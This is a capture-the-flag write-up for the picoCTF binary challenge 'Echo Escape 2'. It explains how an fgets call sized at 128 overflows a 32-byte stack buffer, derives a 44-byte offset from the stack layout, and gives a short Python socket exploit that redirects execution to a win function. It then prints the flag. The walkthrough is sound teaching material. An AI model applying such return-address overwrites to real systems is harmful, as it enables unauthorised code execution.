




# Echo Escape 2

`Category: Binary Exploitation` · `Source: picoCTF` · `Difficulty: Medium`

> The developer has learned their lesson from unsafe input functions and tried to secure the
> program by using fgets(). Unfortunately, they didn't use it correctly. Can you still find a way
> to read the flag?

---

This is the same ret2win as [Echo Escape 1](../EchoEscape1/README.md), so I'll only cover what's
different here:

---

## Examining the binary

Same `file` and `checksec` recon as in Echo Escape 1:





`file` reports an `ELF 32-bit LSB executable`, so this one is 32-bit and addresses
are only 4 bytes long (Echo Escape 1 was 64-bit), no canary means a plain overflow runs straight
to the saved return address, and No PIE means `win` lives at a constant address.

---

## Reading the source

The challenge gives us the c file :

```c
void win() {
    FILE *fp = fopen("flag.txt", "r");
    ...
    fgets(flag, sizeof(flag), fp);   // win uses fgets correctly, with sizeof, but it doesn't matter here
    printf("Flag: %s\n", flag);
}

void vuln() {
    char buf[32];
    fgets(buf, 128, stdin);          // but here the size is 128, not sizeof(buf) = 32
}

int main() { vuln(); puts("Goodbye!"); }
```

Just like in Echo Escape 1 there's a `win` that opens `flag.txt` and never gets called, and a
buffer overflow to reach it. The difference is they tried to be safe with `fgets`, but passed
`128` as the size instead of `sizeof(buf)` = 32, so it still overflows the 32-byte `buf`.

---

## The stack layout in IDA Pro

The overflow is in `vuln`, so it's `vuln`'s
return address we overwrite (the one back to `main`), and it's 32-bit so everything is 4 bytes:



The return address of `call vuln` is pushed onto the stack (4 bytes), ebp is pushed (4 bytes), ebx is pushed (4 bytes), then the stack pointer is dropped by 36 bytes instead of 32, I then find out that is it for padding.
So:

```
4 (saved ebp) + 4 (saved ebx) + 4 (padding) + 32 (our buffer) = 44 
```

So I write 44 bytes of whatever, then the next 4 bytes overwrite `vuln`'s return address with
`win`.

---

## Finding win

Again, without PIE we have a constant address that can directly be found in IDA exports subview for example :


`win` sits at `0x08049276`, and packed little-endian that's the bytes `76 92 04 08`.

---

## Getting the flag

Same as Echo Escape 1 we send 44 bytes of padding concatenated with `win`'s address raw (now `<I` for 4 bytes instead of `<Q`>).


```python
import socket, struct

s = socket.create_connection(("dolphin-cove.picoctf.net", 60263)) # launched instance
s.recv(1024)                                        # "Enter the secret key: "
s.sendall(b"A" * 44 + struct.pack("<I", 0x08049276) + b"\n")  # 44 filler + win
print(s.recv(1024).decode(errors="replace"))        # echo + flag
```

The program echoes my payload back before the flag, and the raw address bytes in it aren't valid (0x92)
UTF-8, so I decoded with `errors="replace"` to avoid a crash.



```
picoCTF{fgets_0v3rfl0w42_347c3b67}
```
